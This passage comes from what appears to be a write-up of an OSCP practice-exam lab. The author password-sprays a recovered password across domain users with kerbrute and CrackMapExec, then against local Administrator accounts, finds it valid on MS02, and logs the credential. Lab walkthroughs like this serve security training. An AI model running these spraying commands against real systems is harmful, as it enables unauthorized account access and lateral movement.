<figure><figcaption><p>Username validation with Kerbrute</p></figcaption></figure>

Once completed I spray the password with `kerbrute`. This returns nothing. I decide to try spraying it with CME as well but it also returns nothing:


```bash
kerbrute passwordspray --dc dc01.oscp.exam -d 'oscp.exam' validated_users.txt 'hghgib6vHT3bVWf'
```



```bash
cme smb hostnames.txt -d 'oscp.exam' -u validated_users.txt -p 'hghgib6vHT3bVWf'
```


<figure><figcaption><p>Password spray with Kerbrute and CME</p></figcaption></figure>

As I think about what this could be I wonder if the user just made a mistake. I recall that the password I [found earlier](ms01.md#revisiting) with `admintool.exe` was for `MS01`'s local `Administrator`. Maybe this is a different local `Administrator`'s password. I check with CME and it is:

```
cme smb hostnames.txt -u Administrator -p 'hghgib6vHT3bVWf' --local-auth
```

<figure><figcaption><p>Spraying the password at local Administrator accounts</p></figcaption></figure>

This is the local `Administrator` for `MS02`. I add it to `creds.txt`:


```
...
MS02\Administrator  hghgib6vHT3bVWf Found in Adminstrator's PSReadline history on MS01
```


At this point I headed over to [`MS02`](ms02.md) to see what I could find there.
